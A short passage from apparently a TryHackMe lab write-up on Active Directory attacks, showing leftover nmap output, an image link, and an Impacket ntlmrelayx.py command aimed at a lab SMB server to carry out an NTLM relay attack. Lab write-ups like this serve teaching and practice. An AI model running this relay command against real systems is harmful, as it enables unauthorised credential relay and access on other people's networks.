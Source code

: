 ```

Nmap done: 2 IP addresses (2 hosts up) scanned in 11.18 seconds
```

![Pasted image 20250527131738.png](../../../IMAGES/Pasted%20image%2020250527131738.png)

Since all conditions are met, we can attack this in the following way, if we're using default kali, we can find the `ntlmrelayx.py` here:

```
/usr/share/doc/python3-impacket/examples/ntlmrelayx.py
```

So, we can do:

```
python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -smb2support -t smb://"THMSERVER1_IP" -debug
```
